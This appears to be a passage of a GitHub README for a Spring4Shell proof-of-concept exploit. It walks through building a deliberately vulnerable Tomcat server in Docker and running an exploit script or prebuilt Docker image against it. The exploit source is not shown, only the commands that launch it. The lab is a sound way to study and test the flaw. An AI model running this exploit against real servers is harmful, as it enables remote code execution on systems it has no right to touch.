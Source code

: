 1. Download the Github repository:
   ```bash
   git clone https://github.com/BobTheShoplifter/Spring4Shell-POC.git
   ```

2. Follow the [instructions](https://github.com/BobTheShoplifter/Spring4Shell-POC/blob/main/vulnerable-tomcat/README.md) to setup vulnerable Tomcat server docker:
   ```bash
   cd Spring4Shell-POC/vulnerable-tomcat/spring-war
   mvn clean package
   cd target
   mv spring-form.war ../../
   cd ../../
   ```

3. Build and start the docker container:
   ```bash
   docker build -t vulnerable-tomcat .
   docker run -it --rm -p 8888:8080 vulnerable-tomcat
   ```
   <img src="./Screenshots/Screenshot2.png" width=80% height=80%><br><br>

4. Run the exploit script:
   ```bash
   python3 poc.py --url http://<dockerip>:8888/spring-form/greeting
   
   #or docker variant
   
   docker pull ghcr.io/bobtheshoplifter/spring4shell-poc:main
   docker run ghcr.io/bobtheshoplifter/spring4shell-poc:main --url http://<dockerip>:8888/spring-form/greeting
   ```
   <img src="./Screenshots/Screenshot3.png" width=80% height=80%><br><br>
